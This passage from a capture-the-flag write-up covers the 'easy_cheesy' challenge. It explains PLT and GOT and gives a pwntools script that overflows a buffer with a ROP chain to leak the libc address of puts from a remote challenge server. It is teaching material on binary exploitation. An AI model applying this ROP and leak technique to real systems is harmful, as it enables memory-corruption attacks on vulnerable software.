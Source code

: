 If you don't know what the PLT and GOT are, you can read all about them [**here**](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html). But a quick overview for now is that the PLT (Procedure Linkage Table) is where the program looks when it wants to call a function, and the GOT (Global Offset Table) is where the actual address for that function is in memory. Jumping to the PLT address of a function will call it 100% of the time, which is really handy when you want to call functions after jumping around. 

Knowing this, we can make a payload like the following:

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary. I found this using "ropper -f easy_cheesy"
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory                                                            │
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

cheese.interactive()
```

![Untitled%207.png](Untitled%207.png)
